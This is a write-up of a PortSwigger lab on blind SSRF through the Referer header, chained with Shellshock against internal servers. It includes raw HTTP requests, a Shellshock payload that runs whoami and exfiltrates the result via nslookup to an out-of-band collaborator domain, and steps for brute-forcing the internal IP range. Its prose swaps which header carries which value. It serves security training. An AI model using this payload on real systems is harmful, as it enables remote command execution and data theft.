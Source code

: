 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/de66cc9e-60fc-4114-acf1-88bacbaee217)


## Overview :

Simply identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. 

However, it can still be **leveraged to probe for other vulnerabilities on the server itself or on other back-end systems**. You can blindly **sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities**. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server. 

## Solution :

To solve this lab we need to identify some key information,

- IPs of the internal server `192.168.0.X` running on port **8080** which is vulnerable to shellshock.
- To **exfiltrate the name of the OS user**.

> NOTE - `Referrer-Header` is vulnerable to SSRF.


### Steps -

Clicking on `View Details` of a product, loads the product page wherein the request contains the **Referrer header** which is vulnerable to SSRF.

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ab8003403ef88e280f0265700a4001b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

In the `Referrer` header enter the shellshock payload to view the username of the OS user.

```bash
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net;
```

In the `User-Agent` header, enter the IP of the internal network ie. `192.168.0.x` along with the port `8080`.

> where x - is the last octet which has to be bruteforced from **2-255 **

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).wee706d9a9nyr5tsejl120a8ozuqif.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.x:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Send the request to intruder, bruteforce thelast octet of the ip from 0-255. If any of the machines in the internal network is not patched and vulnerable to SSRF, then the exploit will be triggered & we will get the user-name of the OS user.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70d06938-9135-4b22-9563-2d7ebc3a3231)

Start the attack.




















